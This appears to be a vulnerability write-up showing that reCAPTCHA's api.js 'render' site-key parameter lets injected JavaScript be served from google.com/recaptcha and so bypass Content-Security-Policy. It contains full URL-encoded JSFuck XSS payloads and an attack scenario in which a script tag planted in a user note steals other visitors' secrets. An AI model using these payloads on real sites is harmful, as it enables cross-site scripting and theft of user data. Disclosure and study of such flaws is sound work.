




# Improper parameter sanitization

## Prolog
I recently discovered that `site-key` parameter in `Google reCAPTCHA` application is improperly verified and then sanitized. Therefore it allows an attacker to insert any `JavasSript` code onto `https://google.com/recaptcha` domain and then use it to bypass `Content Security Policy` on the website using `Google reCAPTCHA` authentication tool. I believe that there is a high risk of possible `XSS Injection` due to my finding.

## Documentation
From the [docummentation](https://developers.google.com/recaptcha/docs/invisible) we can read that `api.js` file allows three parameters to be provided:

| Parameter | Value | Description |
| ------------- |:-------------:| :-----|
| `onload` | | Optional. The name of your callback function to be executed once all the dependencies have loaded. |
| `render` | explicit <br> onload | Optional. Whether to render the widget explicitly. Defaults to onload, which will render the widget in the first g-recaptcha tag it finds. |
| `hl` | See [language codes](https://developers.google.com/recaptcha/docs/language) | Optional. Forces the widget to render in a specific language. Auto-detects the user's language if unspecified. |


So if we visit the `URL` [https://www.google.com/recaptcha/api.js?render=explicit](https://www.google.com/recaptcha/api.js?render=explicit) we get the following `JavaScript` code.
```
/* PLEASE DO NOT COPY AND PASTE THIS CODE. */(function() {var CFG='___grecaptcha_cfg';if(!window[CFG]){window[CFG]={};}var GR='grecaptcha';if(!window[GR]){window[GR]={};}window[GR].ready=window[GR].ready||function(f){(window[CFG]['fns']=window[CFG]['fns']||[]).push(f);};(window[CFG]['render']=window[CFG]['render']||[]).push('explicit');window['__google_recaptcha_client']=true;var po=document.createElement('script');po.type='text/javascript';po.async=true;po.src='https://www.gstatic.com/recaptcha/api2/v1529908317173/recaptcha__pl.js';var elem=document.querySelector('script[nonce]');var n=elem&&(elem['nonce']||elem.getAttribute('nonce'));if(n){po.setAttribute('nonce',n);}var s=document.getElementsByTagName('script')[0];s.parentNode.insertBefore(po, s);})();
```

But if we visit [https://www.google.com/recaptcha/api.js?render=6LdLf2AUAAAAAKeDRmM6lGRzZsG4U0VapHMPVqRM](https://www.google.com/recaptcha/api.js?render=6LdLf2AUAAAAAKeDRmM6lGRzZsG4U0VapHMPVqRM) where `6LdLf2AUAAAAAKeDRmM6lGRzZsG4U0VapHMPVqRM` is the `site-key` value we get the following code.

```
/* PLEASE DO NOT COPY AND PASTE THIS CODE. */(function() {var CFG='___grecaptcha_cfg';if(!window[CFG]){window[CFG]={};}var GR='grecaptcha';if(!window[GR]){window[GR]={};}window[GR].ready=window[GR].ready||function(f){(window[CFG]['fns']=window[CFG]['fns']||[]).push(f);};(window[CFG]['render']=window[CFG]['render']||[]).push('6LdLf2AUAAAAAKeDRmM6lGRzZsG4U0VapHMPVqRM');window['__google_recaptcha_client']=true;var po=document.createElement('script');po.type='text/javascript';po.async=true;po.src='https://www.gstatic.com/recaptcha/api2/v1529908317173/recaptcha__pl.js';var elem=document.querySelector('script[nonce]');var n=elem&&(elem['nonce']||elem.getAttribute('nonce'));if(n){po.setAttribute('nonce',n);}var s=document.getElementsByTagName('script')[0];s.parentNode.insertBefore(po, s);})();
```

It's noticable that one line changed to `push('6LdLf2AUAAAAAKeDRmM6lGRzZsG4U0VapHMPVqRM')`. Looks like this *feature* is not yet well docummented. We can find an example here [https://developers.google.com/recaptcha/docs/v3](https://developers.google.com/recaptcha/docs/v3) but it only shows the new *feature* in action: 

```
<script src="https://www.google.com/recaptcha/api.js?render=reCAPTCHA_site_key"></script>
```

## Exploiting `site-key` parameter
I searched for vulnerability and I came to the following conclusions.  
If `render` parameter:
- contains any `alphanumeric` character making `site-key` invalid, the line in the code will change back to `push('onload')`
- after removing all `non-alphanumeric` characters (from the range `[a-zA-Z0-9]`) contains a valid `site-key` it will be approved and the line will consist of all the characters.

As for example, if we pass `6LdLf2AUAAAAAKeDRmM6lGRzZsG4U0VapHMPVqRM');[][][][];('` as a `render` parameter the code will contain `push('6LdLf2AUAAAAAKeDRmM6lGRzZsG4U0VapHMPVqRM');[][][][];('');`

We can exploit it further and pass any valid `JavaScript` in there. To do so, we can use for example the tool [JSFuck](http://www.jsfuck.com/) which converts any `JavaScript` code into a code consisted only of characters `()+[]!`.

As for the sake of an example, I injected `alert(1)` using the URL 
 [https://www.google.com/recaptcha/api.js?render=6LeB410UAAAAAGkmQanWeqOdR6TACZTVypEEXHcu%27%29%3b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%21%5b%5d%5d%2b%5b%5d%5b%5b%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%5b%28%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%21%5b%5d%5d%2b%5b%5d%5b%5b%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%21%5b%5d%5d%2b%5b%5d%5b%5b%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%5b%5d%5b%5b%5d%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%5b%5d%5b%5b%5d%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%21%5b%5d%5d%2b%5b%5d%5b%5b%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%21%5b%5d%5d%2b%5b%5d%5b%5b%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%28%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%21%5b%5d%5d%2b%5b%5d%5b%5b%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%21%5b%5d%5d%2b%5b%5d%5b%5b%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%29%28%29%3b%28%27](https://www.google.com/recaptcha/api.js?render=6LeB410UAAAAAGkmQanWeqOdR6TACZTVypEEXHcu%27%29%3b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%21%5b%5d%5d%2b%5b%5d%5b%5b%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%5b%28%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%21%5b%5d%5d%2b%5b%5d%5b%5b%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%21%5b%5d%5d%2b%5b%5d%5b%5b%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%5b%5d%5b%5b%5d%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%5b%5d%5b%5b%5d%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%21%5b%5d%5d%2b%5b%5d%5b%5b%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%21%5b%5d%5d%2b%5b%5d%5b%5b%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%28%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%21%5b%5d%5d%2b%5b%5d%5b%5b%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%21%5b%5d%5d%2b%5b%5d%5b%5b%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%29%28%29%3b%28%27)

resulting with the following code: 



## Attack scenario
Suppose we have a website `https://xyz.example.com` with **uploading notes** as a major functionality. Each user has his own account and creates either public or private notes. The website offers set of `scripts`, hosted on their website, which users can attach into their notes (for example animated winter theme). 
At the same time, the website `https://xyz.example.com` **ensures** that the user data is safe and that no `XSS Injection` can be done on their website. But the website uses `Google reCAPTCHA` tool as a defense against bots. The header `Content-Security-Policy` intended to prevent from XSS is set to:

```
Content-Security-Policy: 
  default-src 'self';
  style-src 'unsafe-inline' 'self';
  script-src https://xyz.example.com/scripts/ https://www.google.com/recaptcha/ https://www.gstatic.com/recaptcha/; 
  frame-src 'self' https://www.google.com/recaptcha/;
```

which only allows scripts to be loaded from `http://xyz.example.com/scripts`, `https://www.gstatic.com/recaptcha/` and `https://www.google.com/recaptcha/`. The latter two are needed in order to make `reCAPTCHA` work.


Even though the website `http://xyz.example.com/` was not vulnerable to the `XSS Injection` itself there was a mistake made by trusting `reCAPTCHA` being safe to use.

The attacker one day created a note containing:

```
<script src="https://www.google.com/recaptcha/api.js?render=6LeB410UAAAAAGkmQanWeqOdR6TACZTVypEEXHcu%27%29%3b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%21%5b%5d%5d%2b%5b%5d%5b%5b%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%5b%28%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%21%5b%5d%5d%2b%5b%5d%5b%5b%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%21%5b%5d%5d%2b%5b%5d%5b%5b%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%5b%5d%5b%5b%5d%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%5b%5d%5b%5b%5d%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%21%5b%5d%5d%2b%5b%5d%5b%5b%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%21%5b%5d%5d%2b%5b%5d%5b%5b%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%28%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%21%5b%5d%5d%2b%5b%5d%5b%5b%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%21%5b%5d%5d%2b%5b%5d%5b%5b%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%29%28%29%3b%28%27"></script>
```

And successfully stole all the secrets from other users visited his [profile](./website.html).





## Another possibilities
I think that it is safe to assume that **this is not one-time issue** and that there are another places where an attacker could use this improper `site-key` validation. To proof my statement I include another place with exactly the same validation vulnerability [https://www.google.com/recaptcha/api2/anchor?ar=1&k=6LeB410UAAAAAGkmQanWeqOdR6TACZTVypEEXHcu,,,,,,,,,,,,,,,,,,%27%27%27%27%27%27%27%27%27%27%27%27%27%27%27%27%27%27%27]]]]]]]]]]]]]]];;;;;;;;;;;;;;;;&co=aHR0cHM6Ly9jYXQtY2hhdC53ZWIuY3RmY29tcGV0aXRpb24uY29tOjQ0Mw..&hl=pl&v=v1529908317173&size=invisible&cb=9t5ngj5ttf35#hpk91u1efhbx](https://www.google.com/recaptcha/api2/anchor?ar=1&k=6LeB410UAAAAAGkmQanWeqOdR6TACZTVypEEXHcu,,,,,,,,,,,,,,,,,,%27%27%27%27%27%27%27%27%27%27%27%27%27%27%27%27%27%27%27]]]]]]]]]]]]]]];;;;;;;;;;;;;;;;&co=aHR0cHM6Ly9jYXQtY2hhdC53ZWIuY3RmY29tcGV0aXRpb24uY29tOjQ0Mw..&hl=pl&v=v1529908317173&size=invisible&cb=9t5ngj5ttf35#hpk91u1efhbx).
If we look into the source code then once again we successfuly injected `non-alphanumeric` characters after the valid `site-key`. In our example this is: `6LeB410UAAAAAGkmQanWeqOdR6TACZTVypEEXHcu,,,,,,,,,,,,,,,,,,%27%27%27%27%27%27%27%27%27%27%27%27%27%27%27%27%27%27%27]]]]]]]]]]]]]]];;;;;;;;;;;;;;;;`.



But this time it's on the `HTML` page not on the page with `text/javascript` *MIME* type. But here I was unsuccessful with attaching working `JavaScript` code.